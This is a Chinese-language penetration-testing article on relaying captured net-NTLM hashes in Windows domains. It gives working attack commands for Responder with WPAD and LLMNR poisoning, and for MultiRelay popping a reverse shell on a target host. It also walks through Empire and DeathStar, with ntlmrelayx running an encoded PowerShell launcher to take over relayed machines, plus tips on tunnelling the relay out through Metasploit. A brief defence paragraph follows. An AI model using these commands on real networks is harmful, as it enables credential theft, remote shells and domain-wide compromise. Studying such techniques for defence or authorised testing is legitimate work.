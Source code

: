 
# 内网渗透-net-NTLM hash的攻击


                                阅读量   
                                **683179**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](./img/200649/t01db5d717014e8f01c.jpg)](./img/200649/t01db5d717014e8f01c.jpg)



## 0x01 前言

记得之前有个知识点还没有去写，虽然比较简单，但是很多文章对突出的重点写的不够详细，所以我搭个环境整理一下，具体一些认证原理、以及中继转发的过程，请查看我的上一篇文章。



## 0x02 中继原理

对于SMB协议，客户端在连接服务端时，默认先使用本机的用户名和密码hash尝试登录，所以可以模拟SMB服务器从而截获其它PC的net-ntlm hash。而作为中继的机器必须要有域管理员权限或本地管理员权限，且被中继的机器要关闭smb签名认证，否则怎么去做中继呢，比如本文案例用域控做中继。

除了中继smb协议，还可以中继LDAP，从域内内收集更多的信息，包括用户、他们的组成员、域计算机和域策略；中继IMAP，Exchange 服务器上的 IMAP 支持 NTLM 身份验证，若Exchange启用 NTLM 身份验证，可以登录用户的邮箱。这些可以用来进一步的扩大危害。



## 0x03 获取net-NTLM hash

中继即让客户端连接到攻击者模拟的SMB，其实最关键的是先拿到net-ntlm hash，若是域管的hash，就可以拿到域内的任意主机权限。NTLM 身份验证被封装在其他协议中，但是无论覆盖的协议是什么，消息都是相同的，比如SMB、HTTP(S)、LDAP、IMAP、SMTP、POP3 和 MSSQL，就是说NTLM 支持多种协议。HTTP 进行身份验证的客户端会在“ Authorization”标头中发送 NTLM 身份验证消息，因此除了中继SMB可以直接登录之外，若是中继MSSQL等，可以转发登录目标的MSSQL。

下面总结几个获取方法：

1.中间人攻击，比如内网做个DNS劫持，如果是全内网劫持，危害是比较大的。

2.WPAD，自动发现协议，利用DNS 查找一个名为 WPAD 的主机名，如果不能通过上面描述的 LLMNR。 Responder开启WPAD后，-F，当目标浏览网站时强制使用NTLM hash认证，而且主机重启时也能抓到NTLM hash。

加-F参数即可开启WPAD抓取 hash，此时用户浏览网站Net-NTLM hash就被获取。

python Responder.py -I eth0 -v -F

[![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01388a3a897912be40.png)

[![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t018b28df3b23701fbb.png)

3.web漏洞，如XSS、文件包含等获取net-NTLM hash。

4.LLMNR，构造不存在的主机名，当主机名无法使用 DNS 解析的主机，则使用本地链路多播名称解析，即LLMNR<br>
滥用自动发现协议产生的流量，Windows 代理自动检测 (WPAD) 功能，自动尝试使用 NTLM 身份验证进行身份验证<br>
通过中间人攻击获得的流量，比如DNS劫持，重定向到受害者工作站受信任的位置



## 0x04 中继反弹shell

攻击机ip

[![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01398ba33924376742.png)

靶机ip

[![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01ea1d4e78c13876ee.png)

受害者ip-域内pc

[![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ddc275ab752069b4.png)

1、攻击机执行 python Responder.py -I eth0 -r -d –w

[![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t013123827038262472.png)

2、sudo python MultiRelay.py -t 192.168.191.189 -u ALL

可以导入列表，这里演示一个攻击目标192.168.191.189，利用Responder的MultiRelay模块获取shell，如果成功，直接反弹192.168.191.189的shell

[![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t013459b869e1e6c111.png)

3、靶机执行 net use 192.168.191.190test

用户名密码随意输入，因为就算密码错误了，会调用这台机子自带的hash尝试登录攻击机，被攻击机获取hash，进行中继转发。

[![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t018b9cb441bc38966a.png)

4、执行之后，发现MultiRelay已经反弹受害机的shell

[![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01bc066ea7c711ec07.png)

获取shell之后进一步利用，可以dump hash、或加载到meterpreter、 CS，执行一下powershell命令即可。



## 0x05 DeathStar体验

1、启动empire

sudo python empire —rest —username username —password 123456

2、启动Deathstar，ip为攻击机ip，为了接管agent

python3 DeathStar.py -lip 192.168.191.190 -t 100 -u username -p 123456

[![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01b27a42c77178c938.png)

3、empire生成powershell

Listeners，会发现已经有了一个DeathStar监听

launcher powershell DeathStar，生成powershell代码

[![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01229f13ea86d7cea3.png)

4、启动Responder

sudo python Responder.py -I eht0 -r -d –v

Deathstar会自动寻找域控制器，及活跃用户等目录进行中继转发。

5、这条命令是对中继成功的机器，自动执行powershell，获取agent，powershell脚本放在引号中。

sudo ntlmrelayx.py -t 192.168.191.189 -c ‘powershell -noP -sta -w 1 -enc [powershell code]’

[![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t016e3343b5e577c5cc.png)

ntlmrelayx.py支持-tf（例如target.txt），把目标导入利用中继批量转发攻击。

6、net use 192.168.191.190a

[![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0105f0722b70305ab8.png)

[![](./img/200649/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t016bf9f3d1a26e527f.png)

可以看到对每台PC进行了转发测试，若成功则反弹shell。

这个工具感觉没有想象中的强大，前面几分钟都在攻击我的kali攻击机，然后开始对域控进行中继，在整个网段探测存活，再对存活主机进行中继转发.

总结：

如果我们的msf在自己内网怎么办，目标内网肯定无法直接转发到我们的Responder，可以通过msf劫持445端口到自己本地，设置一个远程监听端口(auxiliary/scanner/smb/smb_login)，用来接收smb的数据，在设置一个meterpreter反向转发端口(portfwdadd)。

防御：

所有攻击都滥用了 NLTM 身份验证协议，因此唯一完整的解决方案是完全禁用 NTLM 并切换到 Kerberos。操作系统若不支持 Kerberos 身份验证，无法禁用，启用 SMB 签名，启用 LDAP 签名等来缓解。
